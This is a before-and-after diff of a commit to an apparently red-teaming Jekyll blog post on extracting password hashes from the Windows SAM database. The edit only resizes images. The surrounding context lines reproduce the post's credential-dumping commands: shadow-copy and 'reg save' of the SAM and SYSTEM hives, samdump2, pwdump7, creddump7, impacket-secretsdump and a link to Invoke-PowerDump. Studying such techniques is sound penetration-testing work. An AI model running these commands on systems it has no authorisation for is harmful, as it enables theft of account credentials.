

Before and after one commit to NoRed0x/NoRed0x.github.io, a Jekyll site: the page built from _posts/Red-Teaming/2021-06-26-Windows Credentials-SAM-Database-part-1.md, in a window 1280 px wide and 900 px high, scrolled down 956 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
Update 2021-06-26-Windows Credentials-SAM-Database-part-1.md

````diff
--- a/_posts/Red-Teaming/2021-06-26-Windows Credentials-SAM-Database-part-1.md
+++ b/_posts/Red-Teaming/2021-06-26-Windows Credentials-SAM-Database-part-1.md
@@ -26,7 +26,7 @@ but the SYSTEM process has an exclusive lock on it, preventing us from reading o
 ```
 copy c:\Windows\System32\config\sam C:\Users\nored0x\Downloads\sam
 ```
-<img src="/img/cred1/1.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/1.PNG" alt="Getting-gz" width="1000" height="200">
 
 There are two potential workarounds.
  * First, we could use the Volume Shadow Copy Server, which can create a snapshot (or “shadow volume”) of the local hard drive with vssadmin,
@@ -44,7 +44,7 @@ To verify this
  ```
 - Listing shadow volumes
  ```
-  <img src="/img/cred1/3.png" alt="Getting-gz" width="800" height="100">
+  <img src="/img/cred1/3.png" alt="Getting-gz" width="1000" height="100">
 
 
 
@@ -53,7 +53,7 @@ Shadow copying the SAM database
 copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\sam C:\users\nored0x\Downloads\sam
 ```
 
- <img src="/img/cred1/4.PNG" alt="Getting-gz" width="800" height="200">
+ <img src="/img/cred1/4.PNG" alt="Getting-gz" width="1000" height="200">
 
 
 The encryption keys are stored in the SYSTEM file, which is in the same folder as the SAM database. However, it is also locked by the SYSTEM account
@@ -64,17 +64,17 @@ Shadow copying the SYSTEM file
 copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\system C:\users\nored0x\Downloads\system
 ```
 
-<img src="/img/cred1/5.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/5.PNG" alt="Getting-gz" width="1000" height="200">
 
 
 ```
 reg save HKLM\sam C:\users\nored0x\Downloads\sam
 ```
-<img src="/img/cred1/6.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/6.PNG" alt="Getting-gz" width="1000" height="200">
 ```
 reg save HKLM\system C:\users\nored0x\Desktop\system
 ```
-<img src="/img/cred1/7.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/7.PNG" alt="Getting-gz" width="1000" height="200">
 
 
 ## samdump2
@@ -82,7 +82,7 @@ reg save HKLM\system C:\users\nored0x\Desktop\system
 samdump2 SYSTEM SAM
 ```
 
-<img src="/img/cred1/t1.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/t1.PNG" alt="Getting-gz" width="1000" height="200">
 
 ## pwdump7
  This tool extracts the SAM file from the system and dumps its credentials
@@ -92,13 +92,13 @@ windws7
 ```
 pwdump7.exe
 ```
-<img src="/img/cred1/pd7.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/pd7.PNG" alt="Getting-gz" width="1000" height="200">
 windows10
 ```
 pwdump7.exe
 ```
 
-<img src="/img/cred1/pd77.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/pd77.PNG" alt="Getting-gz" width="1000" height="200">
 
 ```
 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1
@@ -110,7 +110,7 @@ sudo git clone https://github.com/Neohapsis/creddump7
 python pwdump.py /home/kali/system /home/kali/sam
 ```
 
-<img src="/img/cred1/cred7.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/cred7.PNG" alt="Getting-gz" width="1000" height="200">
 
 
 ## impacket
@@ -118,7 +118,7 @@ Impacket tool can also extract all the hashes for you from the SAM file
 ```
 impacket-secretsdump -system SYSTEM -sam SAM local
 ```
-<img src="/img/cred1/impacker.PNG" alt="Getting-gz" width="800" height="200">
+<img src="/img/cred1/impacker.PNG" alt="Getting-gz" width="1000" height="200">
 
 
 ## Decrypting Hash
````
